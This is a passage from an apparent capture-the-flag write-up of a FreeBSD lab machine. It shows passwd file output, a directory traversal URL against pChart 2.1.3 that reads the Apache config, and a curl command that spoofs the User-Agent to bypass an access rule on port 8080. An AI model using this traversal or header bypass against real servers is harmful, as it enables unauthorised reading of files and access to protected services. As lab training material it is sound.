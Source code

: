>mysql:*:88:88:MySQL Daemon:/var/db/mysql:/usr/sbin/nologin  
>ossec:*:1001:1001:User &:/usr/local/ossec-hids:/sbin/nologin  
>ossecm:*:1002:1001:User &:/usr/local/ossec-hids:/sbin/nologin  
>ossecr:*:1003:1001:User &:/usr/local/ossec-hids:/sbin/nologin  

Now we need to know why we can't access the 8080 port. After loosing too much time in the /var/www/ folder, I noticed that it is a FreeBSD and looked for an answer:  
*https://www.freebsd.org/doc/handbook/network-apache.html*  
Yes, Quick Note for the future: Don't go blindly and look for information! The actual config file was in another path, so let's move on:  

hxxp://192.168.1.59/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/hxxpd.conf  

>*SetEnvIf User-Agent ^Mozilla/4.0 Mozilla4_browser*  
>  
><VirtualHost *:8080>  
>  	    DocumentRoot /usr/local/www/apache22/data2  
>  
><Directory "/usr/local/www/apache22/data2">  
>  	    Options Indexes FollowSymLinks  
>          AllowOverride All  
>          Order allow,deny  
>          *Allow from env=Mozilla4_browser*  
></Directory>  

Nice try.  

>kali@kali:~$ curl hxxp://192.168.1.59:8080 -H 'User-Agent: Mozilla/4.0' -v  
>\* Rebuilt URL to: hxxp://192.168.1.59:8080/  
>\*   Trying 192.168.1.59...  
>\* TCP_NODELAY set  
>\* Connected to 192.168.1.59 (192.168.1.59) port 8080 (#0)  
>\> GET / HxxP/1.1  
>\> Host: 192.168.1.59:8080  
>\> Accept: */*  
>\> User-Agent: Mozilla/4.0  
>\>   
>< HTTPP/1.1 200 OK  
>< Date: Sat, 05 May 2018 01:30:33 GMT  
>< Server: Apache/2.2.21 (FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8  
>< Content-Length: 201  
>< Content-Type: text/html;charset=ISO-8859-1  
><   
>\<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">  
>\<html>  
> \<head>  
>    \<title>Index of /</title>  
>    \</head>  
>    \<body>  
>   	\<h1>Index of /</h1>  
>   	\<ul>\<li>\<a href="phptax/"> phptax/</a></li>  
>  	\</ul> 
>  \</body></html>  
> \* Connection #0 to host 192.168.1.59 left intact  
